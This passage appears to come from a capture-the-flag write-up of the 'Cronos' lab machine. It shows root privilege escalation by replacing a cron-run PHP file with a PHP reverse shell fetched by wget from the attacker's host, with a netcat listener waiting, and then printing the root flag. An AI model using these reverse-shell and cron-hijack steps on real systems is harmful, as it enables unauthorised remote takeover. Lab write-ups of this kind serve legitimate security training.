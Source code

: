 The cron job is running the file using the PHP command so whatever code we add should be in PHP. 

https://pentestmonkey.net/tools/web-shells/php-reverse-shell

```bash
# host
cp php-reverse-shell.php artisan
nc -nlvp 4444
# victim
rm artisan 
wget http://10.10.14.14/artisan
```

![[Cronos-22.png]]

![[Cronos-23.png]]

Wait for a minute for the scheduled cron job to run and we are root!

```bash
# Grab the root flag
cat /root/root.txt
# flag
6e82bcebb95e7d1f535bf81c4fb28ced
```


![[Cronos-24.png]]

WellDone!
